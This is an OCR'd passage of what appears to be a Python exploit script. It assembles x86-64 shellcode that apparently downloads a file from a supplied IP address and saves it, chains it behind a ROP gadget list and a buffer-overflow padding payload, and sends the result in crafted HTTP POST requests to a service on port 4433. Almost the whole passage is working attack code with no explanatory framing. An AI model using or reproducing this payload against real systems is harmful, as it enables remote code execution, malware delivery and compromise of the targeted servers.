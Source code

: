 ```
      push 0
      mov rbx, {}
      push rbx
      mov r9, rsp
      mov rbx, {}
      push rbx
      mov r8, rsp
      mov rbx, {}
      push rbx
      mov rcx,rsp
      mov rbx, {}
      push rbx
      mov rbx, {}
      push rbx
      mov rdx,rsp
      mov rbx,{}
      push rbx
      mov rbx,{}
      push rbx
      mov rsi,rsp
      mov rdi,rsp
      add rax, 0x70
      mov rsp, rax
      nop
      nop
      nop
      nop
      nop
      nop

      ret
'''.format(arg2,arg1,filename,ip_addr2,ip_addr1,cmd_path2,cmd_path1,save_path1,save_path2))
    print(shellcode)
    print(hex(len(shellcode)))
    return shellcode
ROP=struct.pack('q',0x000000000060e7e9)
ROP+=struct.pack('Q',0xffffffffffeA5288)
ROP+=struct.pack('q',0)
ROP+=struct.pack('q',0x0000000002a0e0e0)
ROP+=struct.pack('q',0x000000000257008a)
ROP+=struct.pack('q',0x0000000000530c8e)
ROP+=struct.pack('q',0x200000)
ROP+=struct.pack('q',0x0000000000509372)
ROP+=struct.pack('q',0x7)
ROP+=struct.pack('q',0x000000000043F3D0)
ROP+=struct.pack('q',0x00000000005dc96d)
ROP+=shellcode1
#441A50

print(hex(len(ROP)))

payload=b'a'*0x560+ROP
payload=payload.ljust(0x620,b'a')+struct.pack('q', 0x0000000000febbaa)+gen_shellcode_download_file()+struct.pack('q',0x43A160)
for CL in content_length:
    try:
        data = b"POST " + path + b" HTTP/1.1\r\nHost: " + \
            ip.encode() + b"\r\nContent-Length: " + CL.encode() + \
            b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\n"+payload

        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
```